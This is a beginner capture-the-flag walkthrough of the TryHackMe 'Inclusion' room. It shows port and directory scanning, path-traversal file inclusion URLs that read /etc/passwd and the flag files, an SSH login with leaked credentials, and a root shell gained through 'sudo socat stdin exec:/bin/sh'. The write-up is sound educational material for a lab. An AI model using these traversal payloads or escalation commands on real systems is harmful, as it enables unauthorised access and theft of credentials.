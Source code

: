 # Inclusion
**Date:** January 20th 2022

[**Link**](https://tryhackme.com/room/inclusion) to the Inclusion CTF on TryHackMe.

This is rated as an easy CTF for beginners.

<br>

## Objectives
This CTF requires that you find the following:
- User flag
- Root flag

<br>

## Nmap Scan

I start with an `nmap` scan to see which ports are open:
```
sudo nmap -sC -sV -A -oN inclusion.nmap 10.10.132.179
```
We only see 2 - ssh and http:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
```

<br>

## Website

First things first, let's run a `gobuster` scan:
```
gobuster dir -u http://10.10.132.179 -w /usr/share/wordlists/dirb/common.txt -t 50 -r -o inclusion.buster -x php,txt,html 2& > /dev/null
```
The scan only shows one result and navigating to it does not work.
```
/article              (Status: 500) [Size: 290]
```

When navigating to the main website the following appears:

![](TryHackMe/images/inclusion1.png)

Clicking on the blue learn more button doesn't do anything, but if you click on the 3 view details buttons it gives you a description of the attacks.

Read through these as they are key concepts for this CTF.

While on the LFI-attack view details screen you'll notice the URL displays:
```
http://10.10.132.179/article?name=lfiattack
```

Reading through the description of this attack explains how to modify what comes after **name=** to view information on the webserver itself.

With the following URL we are able to view the contents of the **/etc/passwd** file and figure out some user names to potentially login via ssh with:
```
http://10.10.132.179/article?name=../../../etc/passwd
```
**TIP:** the above displays unformatted text that is very hard to read. You can view the page source and it formats it much nicer for you: Either add **view-source:** in front of the URL or right click the page and select view source.
```
view-source:http://10.10.132.179/article?name=../../../etc/passwd
```
```
root:x:0:0:root:/root:/bin/bash
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash #falconfeast:<REDACTED>
```
And to help understand what this all means here is a quick breakdown of what each of these fields represent. Fields are separated by :'s
```
username : password (only shows x due to shadowing) : user ID : group ID : GECOS info : home dir : shell
```
Looking at the falconfeast user you'll notice extra information after the shell:
```
#falconfeast:<REDACTED>
```

Let's see what that's all about.

<br>

## Logging into the system

We have a username of falconfeast, and the strange comment after his user entry in the **/etc/passwd** file. Let's try and login via `ssh` with those 2 pieces of info:
```
┌──(kali㉿kali)-[~/work]
└─$ ssh falconfeast@10.10.132.179
The authenticity of host '10.10.132.179 (10.10.132.179)' can't be established.
ED25519 key fingerprint is SHA256:P/7iIMaP0XJ+fmztBwOlGFKmTzcG70wdIP+zi/K87k0.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.132.179' (ED25519) to the list of known hosts.
falconfeast@10.10.132.179's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-74-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Jan 21 08:43:27 IST 2022

  System load:  0.0               Processes:           86
  Usage of /:   34.9% of 9.78GB   Users logged in:     0
  Memory usage: 32%               IP address for eth0: 10.10.132.179
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

3 packages can be updated.
3 updates are security updates.


Last login: Thu Jan 23 18:41:39 2020 from 192.168.1.107
falconfeast@inclusion:~$
```
We're in! Let's see if we can find the user flag by looking in their home directory:
```
falconfeast@inclusion:~$ ls
articles  user.txt
falconfeast@inclusion:~$ cat user.txt
<REDACTED>
```
1 flag down and 1 to go!

Now let's see if we can escalate our priviles and get the root flag. I start out with the standard `sudo -l` to see if we can run anything as root:
```
falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```
It turns out we can use `socat` as root which is a tool similar to netcat.

Let's check out [**https://gtfobins.github.io/**](https://gtfobins.github.io/) to see if there's an easy way to break out of that command to a root shell:

![](TryHackMe/images/inclusion2.png)

We can see there are several methods listed for socat. Here is the information on how to utilize this via sudo:

![](TryHackMe/images/inclusion4.png)

Running the `sudo socat stdin exec:/bin/sh` command:
```
falconfeast@inclusion:~$ sudo socat stdin exec:/bin/sh
whoami
root
```
You'll notice in the description that it mentions it will not be a proper TTY shell which is why you do not see a prompt of any kind.

While not really necessary for this CTF I'll show you quickly upgrade this shell so it functions like a normal interactive shell:
```
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@inclusion:~# export TERM=xterm
export TERM=xterm
root@inclusion:~# ^Z
[1]+  Stopped                 sudo socat stdin exec:/bin/sh
falconfeast@inclusion:~$ stty raw -echo; fg
sudo socat stdin exec:/bin/sh

root@inclusion:~#
```
And now we have a shell that's much easier to use. Let's look in the **/root** directory for the root flag:
```
root@inclusion:~# cd /root
root@inclusion:/root# ls
root.txt
root@inclusion:/root# cat root.txt
<REDACTED>
```

**Note**: We could have easily obtained the two flags via LFI like we did when displaying the **/etc/passwd** file earlier since it appears the webserver is running under the root user giving us access to the **/root** directory. I wanted to assume we didn't know the filenames of the flags and obtain them without shortcuts.
```
This gives you the user flag:

http://10.10.132.179/article?name=../../../home/falconfeast/user.txt

This gives you the root flag:

http://10.10.132.179/article?name=../../../../root/root.txt
```

We've now solved this CTF and have both flags!

 ![](TryHackMe/images/inclusion3.png)

Many thanks to:
- [**falconfeast**](https://tryhackme.com/p/falconfeast) for creating this CTF.
- **TryHackMe** for hosting this CTF.


Visit TryHackMe at: [**https://tryhackme.com**](https://tryhackme.com)
